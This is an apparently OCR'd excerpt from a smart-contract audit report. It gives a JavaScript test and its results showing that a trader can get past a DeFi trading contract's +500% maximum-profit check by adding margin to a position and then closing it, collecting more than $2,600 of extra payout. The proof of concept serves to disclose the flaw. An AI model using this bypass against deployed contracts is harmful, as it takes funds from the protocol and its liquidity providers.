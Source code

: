         });
    
        it.only("All profit is $9900, close the order normally, only get $3960 profit", async function () {
          let balanceBefore = await stabletoken.balanceOf(owner.address);
          await trading.connect(owner).initiateCloseOrder(orderId, 1e10, closePriceData, closeSig, StableVault.address, StableToken.address, owner.address);
          let balanceAfter = await stabletoken.balanceOf(owner.address);
          let marginAfterFee = parseEther("990");
          let payout = balanceAfter.sub(balanceBefore);
          expect(payout.eq(parseEther("4950"))).to.be.true;
    
          let profit = balanceAfter.sub(balanceBefore).sub(marginAfterFee);
          expect(profit.eq(parseEther("3960"))).to.be.true;
    
        });
    
        it.only("All profit is $9900, bypass the PnL check to take extra $2600 profit", async function () {
          // We increase the possition first rather than closing the profit order directly
          let PermitData = [permitSig.deadline, ethers.constants.MaxUint256, permitSig.v, permitSig.r, permitSig.s, false];
          let extraMargin = parseEther("1000");
          await trading.connect(owner).addToPosition(orderId, extraMargin, closePriceData, closeSig, StableVault.address, MockDAI.address, PermitData, owner.address);
    
          // 60 secs later
          await network.provider.send("evm_setNextBlockTimestamp", [2000001060]);
          await network.provider.send("evm_mine");
      
          // Now we close the order to take all profit
          closePriceData = [node.address, 1, closePrice, 0, 2000001060, false];
          let closeMessage = ethers.utils.keccak256(
            ethers.utils.defaultAbiCoder.encode(
              ['address', 'uint256', 'uint256', 'uint256', 'uint256', 'bool'],
              [node.address, 1, closePrice, 0, 2000001060, false]
            )
          );
          closeSig = await node.signMessage(
            Buffer.from(closeMessage.substring(2), 'hex')
          );
    
          let balanceBefore = await stabletoken.balanceOf(owner.address);
          await trading.connect(owner).initiateCloseOrder(orderId, 1e10, closePriceData, closeSig, StableVault.address, StableToken.address, owner.address);
          let balanceAfter = await stabletoken.balanceOf(owner.address);
          let marginAfterFee = parseEther("990").add(extraMargin.mul(990).div(1000));
          let originalProfit = parseEther("3960");
          let extraProfit = balanceAfter.sub(balanceBefore).sub(marginAfterFee).sub(originalProfit);
          expect(extraProfit.gt(parseEther('2600'))).to.be.true;
        });
    
      });
    });

The test result

     Design Specification: Maximum PnL is +500%
        Bypass the maximum PnL check to take extra profit
          √ All profit is $9900, close the order normally, only get $3960 profit
          √ All profit is $9900, bypass the PnL check to take extra $2600 profit
